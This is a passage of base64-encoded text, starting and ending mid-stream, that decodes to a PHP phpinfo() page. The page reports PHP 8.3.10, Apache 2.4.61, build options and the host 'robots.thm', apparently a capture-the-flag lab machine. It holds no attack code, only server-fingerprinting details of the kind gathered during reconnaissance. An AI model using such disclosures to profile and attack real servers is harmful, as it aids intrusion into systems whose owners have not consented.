R3E2NENWYU1ZTjIxMTlnZkFkUHB1c2NLT3hXZ0NNRHd4Zm0wcHZ6Qmh4OXNpUkxvRnQzY2E3SWtmK3gyeXlnYVl6SGRUU2k3SVQ5eThmTUoyTHBkaGcrWkNQQTIrZjA1ZDFBODhtQkxIelFhb0ExZEw2b2hWTEpHaSsxdVFqOFhRTXlISU1nYUdUNmVEeHVvek1rRDI5NExSYUI3Q1BJMjdETEhRU3NrU0ZSdkdhMzBPL3puZEY0ZkYwRE1od2EvLzkvL2laMkRjSUxxTjd4QkhuMW9Vd2VObjdlSjNXTzlRSHZkTWxyTXNwaEtFajhYUVBncHVIVlZNdEdPZ0YwaEM5Q0dUcWJiMmtIT3pYeDczYUtpdWl5bUV2MngyMklDTVlZZVdTQUxCUTdSUTBma29aSXI0RG5SdFMzb2h6ZjFkTnpURzlkMFBjd01MYWhaTzhVeUtUTW0zOHd0ZXJhdFNWdGtwbHE0b1dqMFBjZnJFaW5QaFlnMTRIK2h2ZEl3Q1ZzMWJ2YjZPK1VCTVlGR2w5MGQwTFJHTFJEZ29IRVV3WW5YRG5pUVN0b2NUVlV3ZlBMYUtRR0EvUm9XT21rdnRuc2FHOHVuSytQV01LbEg1ZStMem5wMD
NOMjdSZE8wVGt4bVlOWktzellCbHlmSTNScGpzUWttTU9vOGxzNFdzeDFFS2NFVkFFdmF5eU5vZVJ6c08yUkkrOTNQTlJMZXNHWXROcEJoTDRsL3BybGdaejVvYjBtYnRaVkZoV0MzMDFkMEV1UWdBSFBnUzdEOWhzc1RIS3lNYlJmTHB0RjIxM05CRFJ1b2FxeE5BMnloMlZVQkRueEoxTTF5Ulc2Z09ndDJ4NjRncVhLN2h0MXlPV3lXMSt3bDdiWVh2aFV5Z1FYZ2l0NEt1VkR1Qkd6U2JBMmJtbXRheU56cFJnSk9HdTdYb3NIRkNoWnp2ckdUaVVLdDVVTWlWc21ibXRzQ2IzKzJsWm13bTNoRk5zQS9DaVlkS3lmaFl4M0F3czh1cnA4bnNKTTcybmFHQ0c4ell3Wk1lY2prL1dIVlZSYnNNd1U2dEJWUXNXSlMyc05EbHJnVlRPMFJFL3Z6S1F0dU4yKy84NWs1UHhsVWFMNzVEM0Jad0tzcytKVXFTRlJBTy9GN0VxbGttaisyZ2JyZ1lFOHJaRmx1dStQM3BPR3N5V0NHL1k5L0dSOGV4Qyt2WWZjNWZseGd6UmRER3NERXovOEFKc3h3UWNCVUtQQ3Rt
S09NRkpPOE9LTWdGOHIzYjNzS2tBbTY5VE4rMk9aQ0FtNUlEL2c5WFB5cHdYMjl1ZldndWRxMHVycktlcy84blBreGd5MWJkZzZ6L29yL1NGYzJtelYveHMrNkh3eVNUbWRZSnAyZHBhV0tFcmVnWXJWZm45L0IweGtEMlU2K2Urc09hSHFJbVRmTHJ5Y1VPSVpNMWhKd0Mzb2VtUFhiaS95NVBuc3JKMTM2YlVhOHB4dTY5QmtsbUFOV3dEUmtnUjF3bXdWYWdseWkzTno2SkxRK1pHNU54UXNnTmRBaG1JZkpON3d4Z29XZzlmeHpQUStjL2c5WUFJWGdlVUtDeWlwSk80dVIvd3N3QU9Jd0IvNUlneHZiQUFBQUFFbEZUa1N1UW1DQyIgYWx0PSJQSFAgbG9nbyIgLz48L2E+PGgxIGNsYXNzPSJwIj5QSFAgVmVyc2lvbiA4LjMuMTA8L2gxPgo8L3RkPjwvdHI+CjwvdGFibGU+Cjx0YWJsZT4KPHRyPjx0ZCBjbGFzcz0iZSI+U3lzdGVtIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5MaW51eCByb2JvdHMudGhtIDUuMTUuMC0xMTgtZ2VuZXJpYyAjMTI4LVVidW
50dSBTTVAgRnJpIEp1bCA1IDA5OjI4OjU5IFVUQyAyMDI0IHg4Nl82NCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkJ1aWxkIERhdGUgPC90ZD48dGQgY2xhc3M9InYiPkF1ZyAxMyAyMDI0IDAxOjMxOjU5IDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+QnVpbGQgU3lzdGVtIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5MaW51eCAtIERvY2tlciA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkJ1aWxkIFByb3ZpZGVyIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5odHRwczovL2dpdGh1Yi5jb20vZG9ja2VyLWxpYnJhcnkvcGhwIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+Q29uZmlndXJlIENvbW1hbmQgPC90ZD48dGQgY2xhc3M9InYiPiAmIzAzOTsuL2NvbmZpZ3VyZSYjMDM5OyAgJiMwMzk7LS1idWlsZD14ODZfNjQtbGludXgtZ251JiMwMzk7ICYjMDM5Oy0td2l0aC1jb25maWctZmlsZS1wYXRoPS91c3IvbG9jYWwvZXRj
L3BocCYjMDM5OyAmIzAzOTstLXdpdGgtY29uZmlnLWZpbGUtc2Nhbi1kaXI9L3Vzci9sb2NhbC9ldGMvcGhwL2NvbmYuZCYjMDM5OyAmIzAzOTstLWVuYWJsZS1vcHRpb24tY2hlY2tpbmc9ZmF0YWwmIzAzOTsgJiMwMzk7LS13aXRoLW1oYXNoJiMwMzk7ICYjMDM5Oy0td2l0aC1waWMmIzAzOTsgJiMwMzk7LS1lbmFibGUtbWJzdHJpbmcmIzAzOTsgJiMwMzk7LS1lbmFibGUtbXlzcWxuZCYjMDM5OyAmIzAzOTstLXdpdGgtcGFzc3dvcmQtYXJnb24yJiMwMzk7ICYjMDM5Oy0td2l0aC1zb2RpdW09c2hhcmVkJiMwMzk7ICYjMDM5Oy0td2l0aC1wZG8tc3FsaXRlPS91c3ImIzAzOTsgJiMwMzk7LS13aXRoLXNxbGl0ZTM9L3VzciYjMDM5OyAmIzAzOTstLXdpdGgtY3VybCYjMDM5OyAmIzAzOTstLXdpdGgtaWNvbnYmIzAzOTsgJiMwMzk7LS13aXRoLW9wZW5zc2wmIzAzOTsgJiMwMzk7LS13aXRoLXJlYWRsaW5lJiMwMzk7ICYjMDM5Oy
0td2l0aC16bGliJiMwMzk7ICYjMDM5Oy0tZGlzYWJsZS1waHBkYmcmIzAzOTsgJiMwMzk7LS13aXRoLXBlYXImIzAzOTsgJiMwMzk7LS13aXRoLWxpYmRpcj1saWIveDg2XzY0LWxpbnV4LWdudSYjMDM5OyAmIzAzOTstLWRpc2FibGUtY2dpJiMwMzk7ICYjMDM5Oy0td2l0aC1hcHhzMiYjMDM5OyAmIzAzOTtidWlsZF9hbGlhcz14ODZfNjQtbGludXgtZ251JiMwMzk7IDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+U2VydmVyIEFQSSA8L3RkPjx0ZCBjbGFzcz0idiI+QXBhY2hlIDIuMCBIYW5kbGVyIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+VmlydHVhbCBEaXJlY3RvcnkgU3VwcG9ydCA8L3RkPjx0ZCBjbGFzcz0idiI+ZGlzYWJsZWQgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5Db25maWd1cmF0aW9uIEZpbGUgKHBocC5pbmkpIFBhdGggPC90ZD48dGQgY2xhc3M9InYiPi91c3IvbG9jYWwvZXRjL3BocCA8
L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkxvYWRlZCBDb25maWd1cmF0aW9uIEZpbGUgPC90ZD48dGQgY2xhc3M9InYiPi91c3IvbG9jYWwvZXRjL3BocC9waHAuaW5pIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+U2NhbiB0aGlzIGRpciBmb3IgYWRkaXRpb25hbCAuaW5pIGZpbGVzIDwvdGQ+PHRkIGNsYXNzPSJ2Ij4vdXNyL2xvY2FsL2V0Yy9waHAvY29uZi5kIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+QWRkaXRpb25hbCAuaW5pIGZpbGVzIHBhcnNlZCA8L3RkPjx0ZCBjbGFzcz0idiI+L3Vzci9sb2NhbC9ldGMvcGhwL2NvbmYuZC9kb2NrZXItcGhwLWV4dC1wZG9fbXlzcWwuaW5pLAovdXNyL2xvY2FsL2V0Yy9waHAvY29uZi5kL2RvY2tlci1waHAtZXh0LXNvZGl1bS5pbmkKIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+UEhQIEFQSSA8L3RkPjx0ZCBjbGFzcz0idiI+MjAyMzA4MzEgPC90ZD48L3
RyPgo8dHI+PHRkIGNsYXNzPSJlIj5QSFAgRXh0ZW5zaW9uIDwvdGQ+PHRkIGNsYXNzPSJ2Ij4yMDIzMDgzMSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlplbmQgRXh0ZW5zaW9uIDwvdGQ+PHRkIGNsYXNzPSJ2Ij40MjAyMzA4MzEgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5aZW5kIEV4dGVuc2lvbiBCdWlsZCA8L3RkPjx0ZCBjbGFzcz0idiI+QVBJNDIwMjMwODMxLE5UUyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlBIUCBFeHRlbnNpb24gQnVpbGQgPC90ZD48dGQgY2xhc3M9InYiPkFQSTIwMjMwODMxLE5UUyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkRlYnVnIEJ1aWxkIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ubyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlRocmVhZCBTYWZldHkgPC90ZD48dGQgY2xhc3M9InYiPmRpc2FibGVkIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+WmVu
ZCBTaWduYWwgSGFuZGxpbmcgPC90ZD48dGQgY2xhc3M9InYiPmVuYWJsZWQgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5aZW5kIE1lbW9yeSBNYW5hZ2VyIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5lbmFibGVkIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+WmVuZCBNdWx0aWJ5dGUgU3VwcG9ydCA8L3RkPjx0ZCBjbGFzcz0idiI+cHJvdmlkZWQgYnkgbWJzdHJpbmcgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5aZW5kIE1heCBFeGVjdXRpb24gVGltZXJzIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5kaXNhYmxlZCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPklQdjYgU3VwcG9ydCA8L3RkPjx0ZCBjbGFzcz0idiI+ZW5hYmxlZCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkRUcmFjZSBTdXBwb3J0IDwvdGQ+PHRkIGNsYXNzPSJ2Ij5kaXNhYmxlZCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlJlZ2lzdG
VyZWQgUEhQIFN0cmVhbXM8L3RkPjx0ZCBjbGFzcz0idiI+aHR0cHMsIGZ0cHMsIGNvbXByZXNzLnpsaWIsIHBocCwgZmlsZSwgZ2xvYiwgZGF0YSwgaHR0cCwgZnRwLCBwaGFyPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5SZWdpc3RlcmVkIFN0cmVhbSBTb2NrZXQgVHJhbnNwb3J0czwvdGQ+PHRkIGNsYXNzPSJ2Ij50Y3AsIHVkcCwgdW5peCwgdWRnLCBzc2wsIHRscywgdGxzdjEuMCwgdGxzdjEuMSwgdGxzdjEuMiwgdGxzdjEuMzwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+UmVnaXN0ZXJlZCBTdHJlYW0gRmlsdGVyczwvdGQ+PHRkIGNsYXNzPSJ2Ij56bGliLiosIGNvbnZlcnQuaWNvbnYuKiwgc3RyaW5nLnJvdDEzLCBzdHJpbmcudG91cHBlciwgc3RyaW5nLnRvbG93ZXIsIGNvbnZlcnQuKiwgY29uc3VtZWQsIGRlY2h1bms8L3RkPjwvdHI+CjwvdGFibGU+Cjx0YWJsZT4KPHRyIGNsYXNzPSJ2Ij48dGQ+CjxhIGhy
ZWY9Imh0dHA6Ly93d3cuemVuZC5jb20vIj48aW1nIGJvcmRlcj0iMCIgc3JjPSJkYXRhOmltYWdlL3BuZztiYXNlNjQsaVZCT1J3MEtHZ29BQUFBTlNVaEVVZ0FBQVBvQUFBQXZDQVlBQUFES0g5ZWhBQUFBR1hSRldIUlRiMlowZDJGeVpRQkJaRzlpWlNCSmJXRm5aVkpsWVdSNWNjbGxQQUFBRVdKSlJFRlVlTnJzWFFsMFZOVVp2ak5KU0FnRUF4SENHc05pdFNCRnhCMWwwYm9VVzFwcDNWQVVyS0xXS2dVUFVsRUIxM0swWXExYWxhWFd1aDVFYWRXSzFGMHMxZ0phb2FDZ1FEUktCQkpEVmhLU3pQUit6UGZnNXZMZXZDVXptWm53dm5QK2s4eWJOM2ZldmZmZjczL3ZCQUpUSHhjK2toTDVrcjZUMU9EazVuQWdUUlRXbG9naEZWdEVnL3pmaDJQa1N2cTlwSkdTS2lYOVNkS2l0dGJKb0QvUFNZa3JKRDB2S2VCNElzTk5vdGZ1VXRIay9DTStJdmlqcEY5S0dpRHBHRWtMSlozbEM3cVBlS0tUcEQ5SVdpRHBVT2ZXUENpNjFaZUx2RDJWSWhUd3A5UW
xUaks1TnNJWGRCL3h4SG1TcHZEL091Y1dQU0F5UXcyK0xmZUcxU2JYVnJhMVRxYjc4NXhVYU5kTWVsMGc3SXU1VjF6UHY2ZEpxcEQwa0tSLytJTHVJNTVvOG9lZzFiRlQwa1dTT2tyYVF4SytvUHZ3MFRaUjNaWTc1OGZveVFYZi8vWnhVRmgwUS9HRWZOZjlnSGthSjZtN3BISkpTeVR0OXRuWGh4dEJSMkVHbG5IQ01iWk1hSHVIelgxOUpaMHU2VlJKaDBrNmhNK0JwTWpua2xaSWVsUFNOaGZmM1Y1U3RrTmxFV0JNRm0rM0xjQytCVzNHdVpQMkd2Zm1pRWlDQ01VenhaSUtSR1N0OXplTUwvZmRHQVc5SkIzTzhjNlNsTVorYjVmMHFhUWlGN0VwbmllWFkxYXV2WmZHN3poU1VrOFJTUzQyOEY3TTV4ZnNoMWVBVi92eE96b3ExNnNrbFpCcWJkcG81SDJxRFBSUVhvUDNLaTArMjBGU0Z5clpVZ3QrUnQvN0tIMnZaYjgvdC9pTUcyU3kvMGRJNnNidmdIR29WOGEzeEVyUWI1UTBpVGZIQ3Bsa3psa1c3dytWTkYzU1Q3UUpVekZLMHBWa0RGaXcreVY5
NXVDN3I1WjBrM0NXMkFwd0lrcko5QjlJZWxmU2gyU0lscUMvcERGVVpBVmswclFvTWhrMkdZc3d4K0F0V3ZNS1B0Y3lFY2tXMzdwUHdzSUhOQXVCbmlEcFloRXBCTW1Kd3ZpYkpMMGdJbFZoMzlyMEM4VWxjemtYUS9tTTZPdEV6dWYzUmZQVkF4VVk0N2Y1UFN0Y0dLUHhwT01sZGJieGlCcHRQTWF2SlgxUHVRL1Avb2x5ejEyUzdyRDRQTHlxQlRROGd5WFZTT290NlZLK2R4UjUzd3lsN1BPamt2N3BrcGN3cGxlSlNDSFA0ZVFqTTBCQi9adUc0SGw5RU84bVF4NFpRMEZmTCtrK2srdDR3TmxVTHBrTzI0SUduU3pwUWtsektQRFJBTXZaMWVYejl1WGZIL1B2eDVJZTQ0QzV6WVFYVWdEUGo2TEVuTUNRM0FGa2pqdXBqR0Y5L2tKbXhQdzFvaXF1eis2ZGFsWGNDUlNtWXh3SzBrRFNSSTcxYXpiM1krNkdpTWk2UC81ZXkzRjNZcEV4anhkUW9HNjF1WDhnQmV0a2gyT1dGa1VJVkdVVDFwUzl5b3NaTnUxbmtsOHVaSCttaWtoeGt4MXd6N21rQjBXa1
hzS0pGdzFadVNXS290WTl3ak5KUzZtVXk0MUpLNVAwYzJxQ25CZ0llUVdadkVLN0RuZjZXVWxqVFQ1VFM3ZDBLd2V6a0pTaGRXSWVHZXVLS0pvN0ZrdFVReWxjbDBpNlJ0TC9ISDRPalArd0IwVVRMVEdIZnViUkRXeWkxZzdTYW9aUTQ5NXo5dzdScGFIS3FIRWZMZWtsRXlXemsrN2RsM1RUdTFLUUNwVjcrcEJCNElXc3RGRkFndk9wSm5UTDZEb1cweFBidzNrL25JWWtXK2tibUhlWGhVRUFCa2xhenJCREJkelREZnl1Qm81RFBxMWVvVWs3WmJTazcwbDZuM01aalVkQ0RwUXZNRi9yZXpuNy9oWDdYczh3c2ovN3JzcldkUXhuWnRyd3dFTlVvc0prRERaeFRqT1VrRUgxZHM2bHpKeURaekdTY1Jzb25HTmNNQ0lHK1dnUktUUlE4U3UycDd1UmkvbWxLalpLZWtSRUNoUzJLSU9jVHZmcXAzUlpEbE0rY3huZnY4VGhjNzVQdDhrcW85MlZ6TlRieEJxY1FsY2VpdkFkQnlIREl4YnZGVE1PTG92eUhBR0dLM3FjL2pKRG9EYzRocGpBQnpCbTRVQWds
QkZxRUFPcXQ4bUIyOXNzNHVKbk5DSGZTSy90VlpNWUVmTXlrdDdCY2NvMWVETERIQ1Q4Z216elJkTEhaTDZ3UlNnemc2R0lnVmw4WGoydWhQQStvUW41M3lUZEsybVZNQzhOenVKOHphU3lNL0FweHl6V0NGSlJ2VVEzZVEyOUJUTkZjUmd0K0ZUbDJnMzB6RFpadEQvWlJNaWZFNUVTNlk5TXhxQUhRN1haaWtJOW5kOTdqNXAxZjgzR1pUUHI2Q3J0MnNPY09CMXpUWVQ4SHJxalZSWng0d2JTQXQ0N1NYbi9Zc1pWOXpwNHp1dkpnTkdRUmFzem1vTjFyQlk2SUg0ZEhpVkhjQTVkWmQyemVJYlB2OFpCa2doWVRRRlR4L2gxV3ZTejZjM2tNNWV3R0c4UHJ2eGM1RFpXUzJ1K2R5cG5NNVkzc0lKTVhtYnhmWFcwbWlzWk41Nm94SVRuV3N5bDJmZys2K0MreldUZWZNV3I2OFJ3YVlGMjcxaHRIQlpxQ3NLcUwyOHdCL0FDallTaHJFOW5VamZXbUVVMzNBN3dvcWJSNGs1VWxOazR5b1lPek9IdnRHczMwS08xUWdubFpDMlZvaEdPSUduN1dFdlcwWmRvTW
VDSGZCZ2RvOFgrK20zVitzMndFSEt6Sk1ibEpvbTkyK25lMlNIRHdUMWdrblVpc3BQcEpMcnJWWnF3THhUbXk1RjVqT2RWUzcyRi9iNlV3bGJyY0V5dHJEMDArYThsL1pVTTgyakVaZDhwZXU4dU5ZUzhKeE5XcWlzNUlZcVFDeTFyUFVVTGg4WTdmT1lhbDN6em1QYjZhSk43emxmKzMyYkJWOUVTY2xORTg1V1VYNGo0b05ibC9mTTFiMmVveFgzanlYTnFpRFRQNFhlOFJtOUl0ZlNqdkFyNkRNMGQrbzVNWFcvQ3VITzBhN2VaVExZVDNLRjlMa3RZWi9XZENJK0lrb1YrbEZaNmwzSjlPRjE0SGRNMEYzTXJoWHhGakptcWhoNUZCZXJhMjRYcXhhQ3FMMFVvc0s5N1oya3UreUphRXFmNEQ2MkJ5b1JPY2padU43OFhhYTl6VEJTekt2eHZDK3Zscm1nV1ZQVTJoNGo0RkNPNWxaK3ZOQm5wWUhIZk9PWC9QZlI4M2VBcFRhR004Q0xvcDVsODhXU0xXQU91NEFpTm1lNW93Y0JPMXhobExHTy9lR0FGa3lZcXJ0RmU1ekt6cVU3S0JFNW8vQkFJaXY3VkpT
SzdxVjRHaEVGMVh0U2swWXNlV2w2bFdZSStjWGo2cGlnSkxrSDNWazBxZmVieGU0cTBKR09HU0R4Q1duL05jaGs5cUpnTWZHS1M4N0xEZXMxSUhlVlcwTHN6Z2FDNnNQTVlFNWxCdDRDelJjdXk0bFZNTEtsV2ZXd2NKK1lweHRjR2p0T1lmelJqVGdOSWx2MHJucHlDdmVlSE5GU0ovalVsb25ILzNuTllxeU9VMjhxWWhIT0xielZQcUZjODFKUURLeG5RNXR3TGRtamZtUXpseFU2ZW9aL21tYTN5OEQzVm9ubGhVcjZiRWxoTXdKODFSc2VTeFcramZPWVVMZFlHQXc1czRXQnRwZVUwaWpLd3hucC9IQ2ZuNzBwaUNObE1GRVVVOC9XcG1uWmUxQnE4MHI5Nm01eU1rSXd4OW5uTkhUV0ZzMTE0cTBBck0xSHNpVVk3ajUvcktGSVRoZHJyelI3YWdIeW95OXZkM0FnNjR1RWZLYSt4aklLbExxdFRVQkI3RldnSnJROWpvRmwxZDJjUTJ3ekhhZURYYTYvenRPOVd4K09UK0ZyelNBS3VWMTJwdE9acCtsam5hVmF3azh1eERwbk1aWFlDR0IzUFhxZTVzbD
dRUTV1YmhoUVI5QjRtUXB2aklSK2dKZ3JiT3hWMHJLL3JWVXlYbXlSV2RJMmEyWUxFaFZQM0J3bU45c0o5QnRRcEtreGlTRE9yVWVVaGFlUWFQZXZLektRM29JVlRTR2F0Y3lub1JsMjlzSWtoNDQwYThwVVJOb3owMEFiNFRzMW9ieENwczFGS2w4azVJcEtiY21zZ3U2bno2RVRRQytpU3FvS0tPUG1WSkJtWW5EakhYNEVvekI5czdUZ3d5a2t5WVMxM1VSQUhwbXN0WUlsb09QL0hFaTZXeDVhNCtEd1NwSDJWMTh0VHlIVVBtM2lRZVMxczA5YWk0LzBudFZnTlJRbXpIVFJ1bEd3YVFObmVpM0ZnSHFQY01CRUpsWHJOaW9BYUU4QWN1cEtCZDdFbEJ1MXVUeEN6ZytkbUtCNFRhaGlRTlgvT3hzc0FiMDBVemRlY2k0UzNGWWhFUWRma1dDcmMxY0kySysyRURoc1AxT1V4WkdVbk9XVG1jZ3BoVjBVZ1o0alVSMWhMbEJpdUpmcUpwYjYxQ1hpbU9ycThScWlFZXU2VFUzaU13ZHpZZ1doVW5XSERES3IwcHRMYXI2VVNxbU9mWVlpR01NVFVOL0tnemlH
VlRvK3BOSkhCQmZGMHpWQVFjNk4yRFVMK3RjTzJZYzFSazJzcyt5Qm1Pa280M3lDU0NsakpYQVdBN1BENGVBdDZNQnkyeWlOQUNSdlZWTjA1dDQwcFBMWVBzVCt6bFJEcE9MRy9KdDhPU0dLaG1uQnBpdlY3cS9ZNkprdWNWZ2t5V0tiNTJyVlp3bDB0dk5EaStBelJ2S2pmSzFEbmp2cGQxRmhQRWMxTEJWc2JxRU5YTjM1Y0ZhUFkyQklWR2RsV1laS3FnUFBqL1J5dGhOdHBjTnljcG9PeHdBYWUwYkd3aEFrQVFnMDFjZmlEV0RScVp0SGhDcUZRNUZBdE9YS1hoL1loNkNpMk41WU1VRFcyU0hnL04zc2NuMDJOKytjbk1JWkNCZHdTOWd0QXBSeHFEYzZPbHpXdFNyZGM4Y0pHbHpQNWZ6WkRyaTF0UU5peElTV0wvNWZTUXZjVnpmZS93elhmU0c4S3V3MDNwSEIvdDVLTWlrK0VZSjFFQzFkMHpDdzZmb2ZxUkkyWkp3cHZ5eE40dVBzMHEvNlVSMnN6eUVTb2J4YXRmM2FhN2p2ZnJUMERHUE5wWVYzSDNDSTBCWUxHbGxRZHk3VFgxNHJVUC96ekRIcH
VScDBFUExuSnZINjhRaWovUlhueUl5a3U1RWErNVMzTk83czAxcTc3ZU1ZMXFxWThUN1FzKzRxdHErbzJVV2hqWk82SHVXaGpKQmxaWFdiQUh2YkZTVEF4cU1XK1JidUczVmZ2aUFQMzZ0c2h1aklOaDZUcjNrRTBCTk1sNXg4UXE2K21WVGR3ck1senBSckdhR1B6VnB3OU5ETkZuZ2pvRlpaelJDUy9GUlBYSFJaVDMxWDJNZ2ZZVFFZWDFXRTFtb2FhUUpmS0VGVHMvY2Fta1huVXd0OVl0TldQaXVjNjdWbVJsYjB5aVJnUy9jQWU3aXMwUVh1VEFtOWtpa00yRE5jNU9rZUdSYU1VOHRxMFRKSGJVQ090ZXpNZVJmSVRpU3YxUExMYkdFNWdiL05PQi8xQXVSMUtsTEVURGx0aWR5UjRYSVBhc3lFbmM2ZUliUmE5a2ZOaWZGZVhKT0FuVkpCaUtmRkN2b2JjTEtjY0xIV29qSEpwSVBIM2lYUWxwb05McmRjSDQ0c3Vjdm1RT0hIalo5ckRyR2RiaXhWbWJrL1hHeTRtdGlLdW9RRGptUXBGSkxzNnd1U1p2cUttTDBreTZ6T1pMcnkrNDIwVUtVYXVlNW9v
eWVxeTkraW9wZ005ODljcDFEY3AxNmJTVTF0T0pieUZ5amVkVElENXdPazZPQVVGRlhVREtGUkxrbUJNM3hIN2Z6SUp3UExzeGV4RE1XUDJiOGczOERxTjQ1eXdDdUgwVk51ditYbWp3T1lDanRVYWtiZzZBa0dsTm9RR0JNQjVBOWc4aGgyZzd6RkUyVTRGMzVGeGZIZm13d2J4Y3ozWWwzMkMvb0F3UHdEQVM2VVhkcE9oWFBaMjdUcmM5Ui9TTFRsYTB6ekdvWGwyUUFleG5MVlpKQi9DWk1wVjdIdGhmTDRsSklyYjU0dSt0ZHYzL3JDaVNidytrODh5TTlaeFhnS3dsSG1aeWNxMTNpU3IwS2VNSG1VWnc2cjFWSUNyTFQ0RDVmeTR3cS81REF2ZmphV0M5b0FkOUt4d1ROVUp5blVqTCtFcXB3U1RNRTF6T1dNQnVJeG1aN3A5UkNzTnErTm1keFcwOUkxTWROa0plWVpOSHNJdDBxS0VPMlo0a3ZtSGFkUytYcXYyY3F6YzkzcnB1aGRsNTR0ZzJESVN1SmxqQlczdVpqTUhyQVBxSE9ZSzZ6UElNMjNHMisxNFJ0czRjeUxiZHhvM1k2NjdVc2tPby9XL2
0vUHdSaFFCd1pGa1Qydlh6RGJUdExNWkN5ZlAxMTU1YmJmRHJwaktab1lINDFiTytkOTdqbUVnTVBWeEZNRjBpSEVTSWtpTnREaEt1d1YwNThjdzBkQlpOUCtsRnNTVS82VldmMEU0UC94K0lGMmVKbm9rcjR1Vy8yakFLUFlqalJiN0N4ZWY3MGMzcXNDbDBpbTFHai9VdTJlRjZzV28wclVpVFFxN3pTK3BZanl3blhZd2N5T1pmSTRtS2dIajlOMnR0SHFiUmZTbFFYaGp3NVhYeTRTN1piek9vdmt4VlJzcGhIcDhpYTNIbHlsZVpTMXpIY3ZvVnJkanVORmRFZTdlZEdIelNicFNyaWEvV1ozK2N4WVY1REN4LzR3N0ZVZnlmVFcwV08raTd4MllyektVWFpGdy9zdXQrT3hKREdrSFV4RVpQd2dDcXVRY0lneFpSOW9YZWtEUWs4RkY2MGJxd29jdXBhSW9FejZFbWFDM0MrMFJvNldncDRlYjJ0cFBKcU4rNHhYRlhRM1RmVWZDYzVQRE5uTFpEcExJVjFOQURLeWpaYTg3bUhnbVdYNTdiWWRJZklZM3BkQ0dmNDN4UVVYSTYya0JuM2ZaeGk0U1BDOGNy
SWpEUTR5ekZBYXovWGNQSm43eGYwM1ZSeklCNVo3cUNiQnpQUWk1amdhMkU5YkNEK0VMdWc4ZmljRVpDay9DbWo4Um8zYUx0THhEUjEvUWZmaElITlJUVVpDZitTNUc3U0pCcDJiN0czMUI5K0VqY1ZBRkVJblpRMkxVN2ppTjF6ZjRndTdEUitLd1R2a2ZPOWJHeDZCTm5FUThYWG1ONWNUM2ZFSDM0U054d040QTlkZ2tuSUV3eVdOYmVSVHdWN1dZSEJWd0ZRZmJ3S2I3dk9VamlZQWlLVlQxUGN6WHFDTEQvbjVVYnVMY054VEtvQ2dFeFNGTm1zRkNISTZpSkJRRm5VYnFxYldQSHlGY2VEQU9yQy9vUHBJTitGVmFWTHJOVWE2ZExQYnZvRVFkTzRwZDFPVXlsQlZrQ3V0c09rcW9zYk52d2NFNnFMNmcrMGhHM01ZNGVqb3RzMXBUM2tFNFA5UURkZnVMS2VEZkhzd0Q2Z3U2ajJURjJ5UWNMb3FFR3VycmU5RWRQMVFUZm14SlJkbjBObHJ2RCtqbVk2OUVneitVUXZ4ZmdBRUFMSjRFY1JEYS90b0FBQUFBU1VWT1JLNUNZSUk9IiBhbHQ9IlplbmQgbG
9nbyIgLz48L2E+ClRoaXMgcHJvZ3JhbSBtYWtlcyB1c2Ugb2YgdGhlIFplbmQgU2NyaXB0aW5nIExhbmd1YWdlIEVuZ2luZTo8YnIgLz5aZW5kIEVuZ2luZSB2NC4zLjEwLCBDb3B5cmlnaHQgKGMpIFplbmQgVGVjaG5vbG9naWVzCjwvdGQ+PC90cj4KPC90YWJsZT4KPGhyIC8+CjxoMT5Db25maWd1cmF0aW9uPC9oMT4KPGgyPjxhIG5hbWU9Im1vZHVsZV9hcGFjaGUyaGFuZGxlciIgaHJlZj0iI21vZHVsZV9hcGFjaGUyaGFuZGxlciI+YXBhY2hlMmhhbmRsZXI8L2E+PC9oMj4KPHRhYmxlPgo8dHI+PHRkIGNsYXNzPSJlIj5BcGFjaGUgVmVyc2lvbiA8L3RkPjx0ZCBjbGFzcz0idiI+QXBhY2hlLzIuNC42MSAoRGViaWFuKSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkFwYWNoZSBBUEkgVmVyc2lvbiA8L3RkPjx0ZCBjbGFzcz0idiI+MjAxMjAyMTEgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5TZXJ2ZXIgQWRtaW5p
